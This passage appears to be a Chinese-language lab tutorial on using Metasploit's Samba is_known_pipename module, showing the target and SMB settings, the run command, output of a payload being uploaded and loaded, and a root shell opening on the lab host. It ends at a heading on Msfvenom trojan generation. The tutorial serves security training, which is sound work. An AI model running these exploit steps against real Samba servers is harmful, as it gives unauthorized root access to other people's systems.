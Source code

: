 ### 设置模块

```bash
# 设置靶机IP
set RHOSTS 10.3.4.126

# smb模块全局设置
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1
```

## 3、运行模块（run）

设置完成后执行 `run`

```bash
msf6 exploit(linux/samba/is_known_pipename) > run

[*] 10.3.4.126:445 - Using location \\10.3.4.126\share\ for the path
[*] 10.3.4.126:445 - Retrieving the remote path of the share 'share'
[*] 10.3.4.126:445 - Share 'share' has server-side path '/tmp/
[*] 10.3.4.126:445 - Uploaded payload to \\10.3.4.126\share\CIkZEMwu.so
[*] 10.3.4.126:445 - Loading the payload from server-side path /tmp/CIkZEMwu.so using \\PIPE\/tmp/CIkZEMwu.so...
[-] 10.3.4.126:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.3.4.126:445 - Loading the payload from server-side path /tmp/CIkZEMwu.so using /tmp/CIkZEMwu.so...
[+] 10.3.4.126:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.168.198.226:37289 -> 10.3.4.126:445) at 2024-05-16 21:35:34 -0400
```

出现 

```bash
[*] Command shell session 1 opened (192.168.198.226:37289 -> 10.3.4.126:445) at 2024-05-16 21:35:34 -0400
```

表示攻击成功


输入 `bash -i` 进入终端

```bash
bash -i
bash: cannot set terminal process group (79): Inappropriate ioctl for device
bash: no job control in this shell
root@46d29b327da6:/# ls

```

# MSF 木马生成模块 Msfvenom

